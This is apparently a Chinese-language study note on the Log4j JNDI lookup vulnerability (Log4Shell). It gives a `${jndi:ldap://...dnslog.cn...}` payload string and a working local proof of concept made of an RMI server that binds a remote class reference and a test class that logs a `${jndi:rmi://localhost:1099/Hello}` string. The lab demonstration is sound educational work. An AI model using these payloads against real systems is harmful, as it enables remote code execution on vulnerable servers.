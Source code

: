`${}`为apache中的占位符 一旦在log字符串中检测到${}，就会解析其中的字符串尝试使用lookup查询，因此只要能控制log参数内容，就有机会实现漏洞利用

1.   解析 `${jndi:ldap://wffsr5.dnslog.cn:9999}`
2.   提取到 `jndi:ldap://wffsr5.dnslog.cn:9999`  将该内容作为lookup参数,进行正常的lookup查询
3.   jndi支持多种协议,如rmi,ldap 

>   创建`Server`类：
>
>   ```java
>   public class RMIServer {
>       public static void main(String[] args) {
>           try {
>               Registry registry = LocateRegistry.createRegistry(1099);
>   //创建一个Reference对象，并将其封装在一个ReferenceWrapper中。Reference对象指定了远程对象的类型和位置，其中第一个参数为远程对象的类型，第二个参数为远程对象的位置，第三个参数为远程对象的工厂类。
>               ReferenceWrapper referenceWrapper = new ReferenceWrapper(new Reference("com.ldbmcs.rmi.RmiExecute", "com.ldbmcs.rmi.RmiExecute", null));
>   //将 Hello 与RmiExecute绑定
>               registry.bind("Hello", referenceWrapper);
>           } catch (Exception e) {
>               System.out.println("Server Exception: " + e);
>               e.printStackTrace();
>           }
>       }
>   }
>   ```
>
>   创建对象： 
>
>   ```java
>   public class RmiExecute {
>       static {
>           System.out.println("Hello, World");
>       }
>   }
>   ```
>
>   接着，我们在测试类`VulnerabilityTest`中修改代码如下：
>
>   ```java
>   public class VulnerabilityTest {
>       private static final Logger LOGGER = LogManager.getLogger();
>   
>       public static void main(String[] args) {
>           String test = "${jndi:rmi://localhost:1099/Hello}";
>           LOGGER.error("Test:{}", test);
>       }
>   }
>   ```
>
>   分别启动`RMIServer`和`VulnerabilityTest`，我们可以看到在`VulnerabilityTest`中打印出：
>
>   ```text
>   Hello, World
>   ```
>
>   ![img](https://gitee.com/leiye87/typora_picture/raw/master/20230428093351.png)
